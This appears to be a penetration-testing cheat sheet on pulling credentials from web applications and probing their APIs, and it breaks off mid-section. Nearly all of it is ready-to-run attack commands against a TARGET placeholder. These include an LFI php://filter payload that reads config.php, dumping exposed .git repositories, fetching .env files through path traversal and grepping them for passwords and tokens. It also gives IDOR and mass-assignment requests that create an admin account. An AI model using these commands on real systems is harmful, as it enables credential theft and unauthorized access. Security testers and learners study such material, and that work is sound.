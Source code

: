 ## Credential Extraction from Web Apps

### Common Config File Locations

```bash
# PHP
/var/www/html/config.php
/var/www/html/wp-config.php
/var/www/html/configuration.php
/var/www/html/includes/config.php

# Download via LFI
curl "http://TARGET/page.php?file=php://filter/convert.base64-encode/resource=config.php" | base64 -d

# Look for database credentials
grep -i "password\|db_pass\|database" config.php
```

### Git Repository Extraction

```bash
# If .git exposed
wget -r http://TARGET/.git/

# Extract using git-dumper
git-dumper http://TARGET/.git/ ./output

# Search for credentials in commits
cd output
git log --all --oneline
git show COMMIT_HASH | grep -i password
```

### .env File Extraction

```bash
# Common .env locations
curl http://TARGET/.env
curl http://TARGET/../.env
curl http://TARGET/api/.env

# Parse for credentials
cat .env | grep -i "password\|secret\|key\|token"
```

## API Exploitation

### REST API Testing

```bash
# Test for broken authentication
curl -X GET http://TARGET/api/users

# Test for IDOR
curl -X GET http://TARGET/api/users/1
curl -X GET http://TARGET/api/users/2  # Try other users

# Test for mass assignment
curl -X POST http://TARGET/api/users \
  -H "Content-Type: application/json" \
  -d '{"username":"hacker","password":"pass","role":"admin"}'

# Test HTTP methods
```